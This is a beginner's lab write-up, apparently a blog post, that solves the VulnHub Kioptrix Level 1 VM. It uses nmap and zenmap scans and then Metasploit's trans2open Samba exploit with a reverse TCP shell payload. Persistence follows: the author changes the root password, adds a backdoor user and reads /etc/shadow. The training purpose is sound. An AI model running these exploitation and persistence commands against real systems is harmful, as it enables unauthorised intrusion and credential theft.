 ```yaml
---
title: Kioptrix Level 1 writeup
description: Day 1 of 100 Days challenge
date: 2025-10-09
categories: [Vlunhub, 100Days]
tags: [Vlunhub, 100Days, day1, kioptrix_Level_1] 
---
```



# Kioptrix Level 1 writeup

## Challenge Description

- Name: Kioptrix: Level 1 (#1)
- Date release: 17 Feb 2010
- Author: Kioptrix
- Series: Kioptrix

### Description
This Kioptrix VM Image are **easy** challenges. The object of the game is to **acquire root access** via any means possible (except actually hacking the VM server or player). The purpose of these games are to **learn** the **basic tools and techniques in vulnerability assessment and exploitation**. There are **more ways** then one to successfully complete the challenges.

Task File Download from here 👉[Kioptrix Level 1]( https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar)

### File Information
- Filename: Kioptrix_Level_1.rar
- File size: 186 MB
- MD5: 6DF1A7DFA555A220054FB98BA87FACD4
- SHA1: 98CA3F4C079254E6B272265608E7D22119350A37

> Check the File Hash is Downloaded properly or not

### Virtual Machine

- Format: Virtual Machine (VMware)
- Operating System: Linux


## Points I have Learned

- Network Discovery using Nmap
- Scaning Target using Zenmap
- Using Metaspolit To Exploit
- Maintaining Access

## Step By Step Process

### Step 1: Setup the LAB
- I used VMware to setup Target Machine.
- Extract the archive Downloaded
```bash
unrar x Kioptrix_Level_1.rar
```
- Go To VMware File ➡️ open ➡️ Select `.vmx` file ➡️ Poweron the Machine

### Step 2: Finding Target IP address

- Target is Living on our Network so, scan our Network to Find Target

#### Step 2.1: Finding Which is our Network

- Finding our IP address
```bash
ifconfig
```
output: 
![ifconfig output](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/ifconfig.png)

- Here our subnetmask is `255.255.255.0` means `/24` CDIR haves 256 Hosts.

#### Step 2.2: Scanning Our Network To Find Target IP

- Using `nmap` with `-sn` gives **host is up OR not**.
```bash
nmap -sn 10.253.198.40/24
```
output: 
![Target Founded](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/targetdiscover.png)

- Here `10.253.198.26` is our Target IP address


### Step 3: Finding Vulnerability

- Here I am Using `zenmap` To Find **open ports & Services**
![zenmap scan](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/zenmapscan.png)

- Here I done **Intense Scan** Found some open ports.

| PORT   |   STATE | SERVICE   |   VERSION |
|--------|----------|----------|------------|
|22/tcp   | open | ssh         | OpenSSH 2.9p2 (protocol 1.99) |
|80/tcp   | open | http        | Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b) |
|111/tcp  | open | rpcbind     | 2 (RPC #100000) |
|139/tcp  | open | netbios-ssn | Samba smbd (workgroup: MYGROUP) |
|443/tcp  | open | ssl/https   | Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6 |
|32768/tcp |open | status      | 1 (RPC #100024) |

- I given output to the **ChatGpt** To Find which Services old
- It Says every Service Observing Here are **Old services**
- **Old services** Contain Vulnerabilities.

### Step 4: Exploitation

- I Used  `Metaspolit` to exploit the Target
- I selected port `139/tcp` to exploit

#### Step 4.1: Setting Exploit 

- searching Exploit 
```bash
search Samba
```
- there are several exploits i selected **69** exploit.

```bash
use exploit/linux/samba/trans2open
```

#### Step 4.2: Configuring Required Options

```bash
show options
```
![options](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/showoptions.png)


```bash
set RHOSTS 10.253.198.26
```
![rhost](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/setrhosts.png)

```bash
set LHOST 10.253.198.40
```
![lhost](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/setlhost.png)

```bash
show payloads
```


```bash
set PAYLOAD payload/linux/x86/shell_reverse_tcp
```
![pyload](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/setpayload.png)

#### Step 4.3: Running explot

```bash
exploit
```
![success](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/exploitsuceesful.png)

- Successfully Gained `root` access

### Step 5: Maintaining Access

- For Login into Target Machine Manually I Changed `root` password
```bash
passwd
```
![changepasswd](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/rootpasswdchange.png)

#### Step 5.1: Future Porpose

- login Target Machine Manually with `root` credentials

```bash
adduser new
```
- added user `new` for future login
```bash
passwd new
```
- adding password for `new` user.

![login](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/maintainedaccess.png)

#### Step 5.2: Conformation that credendials are stored or not

- ALL **user credentials are Stored** in `/etc/passwd` their **hash** are stored in `/etc/shadow` files.

```bash
cat /etc/shadow
```
![shadow](/posts/Vlunhub/100Days/Day01_Kioptrix_Level_1/etc#shadow.png)

- Successfully Completed Task.
